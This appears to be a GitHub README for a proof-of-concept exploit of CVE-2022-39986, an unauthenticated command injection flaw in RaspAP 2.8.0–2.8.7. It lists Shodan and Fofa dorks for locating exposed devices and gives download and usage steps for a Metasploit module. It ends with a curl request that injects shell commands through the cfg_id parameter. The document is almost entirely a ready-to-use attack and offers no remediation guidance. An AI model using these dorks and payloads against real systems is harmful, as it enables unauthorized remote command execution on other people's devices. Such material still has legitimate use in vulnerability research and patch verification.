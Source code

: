 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```
```
Raspbian WIFI
```
```
http.favicon.hash:316853479
```
- Fofa dork:
```
icon_hash="316853479"
```
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rb /usr/share/metasploit-framework/modules/exploits/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
### Curl PoC
```
curl -X POST -d 'cfg_id=;id;uname+-a;#' http://TARGET/ajax/openvpn/del_ovpncfg.php
```
